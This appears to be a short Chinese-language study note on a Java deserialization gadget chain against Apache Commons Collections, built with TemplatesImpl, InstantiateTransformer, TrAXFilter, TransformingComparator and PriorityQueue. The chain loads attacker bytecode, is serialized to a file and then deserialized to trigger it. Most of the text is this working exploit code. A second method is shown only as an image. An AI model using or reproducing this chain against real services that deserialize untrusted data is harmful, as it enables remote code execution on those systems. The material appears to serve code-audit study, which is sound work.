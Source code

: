 方法1：

<img width="1992" height="1467" alt="image" src="https://github.com/user-attachments/assets/ebd66cb8-96d0-4948-a1ec-ead2a618b661" />

        TemplatesImpl templates = new TemplatesImpl();
        Class TemplateClass = templates.getClass();
        Field name = TemplateClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "123");

        Field bytecodes = TemplateClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\code-audit\\CC3\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodes.set(templates,codes);

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer,
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformer = transformingComparatorClass.getDeclaredField("transformer");
        transformer.setAccessible(true);
        transformer.set(transformingComparator, chainedTransformer);
        
        serialize(priorityQueue);
        unserialize("ser.bin");

    }

    public static void serialize(Object object) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(object);
    }

    //反序列化方法
    public static void unserialize(String filename) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));
        objectInputStream.readObject();
    }


方法2：


<img width="2163" height="1473" alt="image" src="https://github.com/user-attachments/assets/c7f659aa-cfe7-4012-b533-0a4a71eca6ad" />
